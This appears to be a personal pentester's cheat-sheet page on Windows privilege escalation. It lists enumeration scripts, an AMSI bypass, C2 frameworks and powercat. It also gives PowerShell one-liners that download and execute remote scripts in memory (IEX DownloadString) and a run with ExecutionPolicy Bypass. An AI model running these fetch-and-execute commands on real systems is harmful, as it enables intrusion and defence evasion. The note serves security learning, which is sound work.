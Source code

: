 # Windows PrivilegeEscalation
For [[Windows-File-Transfers]]
For [[WMIC-Commands]]
For [[Windows-CLI-cmd]]
For [[PrivEsc-Important-Windows-Location]]
For [[Powershell-versions]]
Check out [[Kali-Windows-Resources]] for selection of binaries and such to transfer!

# Scripts
```
https://github.com/carlospolop/PEASS-ng
https://github.com/PowerShellMafia/PowerSploit # Privesc/PowerUp
https://github.com/Tib3rius/windowsprivchecker
https://github.com/bitsadmin/wesng
        windows-exploit-suggester.py –update
        windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo sysinfo_output.txt


https://github.com/411Hall/JAWS
	
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
```
# Tools
[[Impacket-Cheatsheet]]
```
https://github.com/bitsadmin/nopowershell  
https://github.com/rasta-mouse/AmsiScanBufferBypass  
https://github.com/cobbr/InsecurePowerShell  
https://github.com/BC-SECURITY/Empire # Or any other C2 framework but this one was fun to use from THM   
https://github.com/BC-SECURITY/Starkiller  
https://github.com/besimorhino/powercat
```
Check usage for [[wesng]]

[Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection) is a github repos that contains ..*"
Nightly builds of common C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines."* 

```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1') 
```
### Arch before making shells!
Careful of x64,x32,x86_64 etc funtimes with windows!
